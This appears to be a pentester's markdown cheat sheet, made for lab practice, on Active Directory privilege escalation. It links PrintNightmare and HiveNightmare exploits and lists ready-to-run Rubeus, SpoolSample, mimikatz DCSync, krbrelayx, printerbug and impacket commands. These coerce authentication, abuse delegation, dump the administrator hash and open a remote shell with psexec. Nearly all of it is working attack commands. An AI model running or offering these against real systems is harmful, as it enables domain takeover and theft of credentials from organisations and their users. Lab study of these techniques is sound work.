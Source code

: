 ### PrintNightmare
https://github.com/calebstewart/CVE-2021-1675

### HiveNightmare
https://github.com/GossiTheDog/HiveNightmare/releases/tag/0.6

### S4U
#### SpoolSample
https://github.com/jtmpu/PrecompiledBinaries/blob/master/SpoolSample.exe
```powershell
 .\Rubeus.exe monitor /interval:5 /nowrap

.\SpoolSample.exe dc01.inlanefreight.local sql01.inlanefreight.local

.\Rubeus.exe renew /ticket:BASE64 /ptt /nowrap

.\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:administrator /domain:htb.local" "exit"

.\Rubeus.exe asktgt /rc4:NTLM /user:administrator /ptt /nowrap

dir \\dc01.inlanefreight.local\c$
```
#### krbrelayx
https://github.com/dirkjanm/krbrelayx
```bash
# 制約なし委任されてるUserへのGenericWriteがあればいける
## DNS
python dnstool.py -u INLANEFREIGHT.LOCAL\\genWuser -p passwd -r my.INLANEFREIGHT.LOCAL -d 10.10.14.224 --action add 10.129.205.35
# SPN registered
## vim /etc/hosts to connect to the dc01
python addspn.py -u inlanefreight.local\\genWuser -p passwd --target-type samname -t sqldev -s CIFS/my.inlanefreight.local dc01.inlanefreight.local

# recov tgt in tgs
python krbrelayx.py -s user -p 
python krbrelayx.py -s user -hashes :NTLM 

#printerBUG 
python printerbug.py inlanefreight.local/genWuer:passwd@10.129.205.35 my.inlanefreight.local

# DCsync
unset KRB5CCNAME
export KRB5CCNAME=./Administrator.ccache
impacket-secretsdump dc01.INLANEFREIGHT.LOCAL -k -no-pass -just-dc-user Administrator -just-dc-ntlm
```
#### DC-Constrained Delegation
```bash
unset KRB5CCNAME
impacket-getST -spn SRV/DC01 'INLANEFREIGHT.LOCAL/delegrate-User:pass' -impersonate Administrator -dc-ip 10.129.193.100 
export KRB5CCNAME=./Administrator.ccache

# vim /etc/hosts DC01 (SPN)
impacket-psexec -k -no-pass INLANEFREIGHT.LOCAL/administrator@DC01
```
